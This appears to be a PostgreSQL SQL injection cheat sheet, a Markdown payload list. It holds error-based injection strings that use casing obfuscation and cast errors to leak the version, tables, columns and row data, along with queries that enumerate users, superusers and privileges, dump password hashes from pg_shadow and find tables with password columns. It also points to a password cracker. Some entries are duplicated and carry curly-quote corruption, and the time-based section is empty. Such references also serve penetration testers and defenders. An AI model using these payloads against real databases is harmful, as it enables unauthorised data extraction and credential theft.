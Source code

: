 # PostgresSQL

## PostgreSQL Comments
```
--
/**/ 
--------------------------------------------------
SELECT 1; –comment
SELECT /*comment*/1;
```

## PostgreSQL Error Based - Basic
```
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name=data_column+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)
```
## PostgreSQL Time Based


# ----------------------------------------------------------

### Version	
``` 
SELECT version()
```
### Comments	
```
SELECT 1; –comment
SELECT /*comment*/1;
```
### Current User	
```
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```
### List Users	
```
SELECT usename FROM pg_user
```
### List Password Hashes
```
SELECT usename, passwd FROM pg_shadow — priv
```
### Password Cracker	
```
MDCrack can crack PostgreSQL’s MD5-based passwords.
```
### List Privileges	
```
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
```
### List DBA Accounts
```
SELECT usename FROM pg_user WHERE usesuper IS TRUE
```
### Current Database	
```
SELECT current_database()
```
### List Databases	
```
SELECT datname FROM pg_database
```
### List Columns	
```
SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’)
```
### List Tables	
```
SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,”) AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid)
Find Tables From Column Name	If you want to list all the table names that contain a column LIKE ‘%password%’:SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’) AND attname LIKE ‘%password%’;
```
List Tables	
```
SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,”) AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid)
```
### Find Tables From Column Name	
```
If you want to list all the table names that contain a column LIKE ‘%password%’:SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’) AND attname LIKE ‘%password%’;
```
### Select Nth Row	
```
SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0; — rows numbered from 0
SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1;
```
### Select Nth Char	
```
SELECT substr(‘abcd’, 3, 1); — returns c
```
### Bitwise AND	
```
SELECT 6 & 2; — returns 2
SELECT 6 & 1; –returns 0
```

## References:
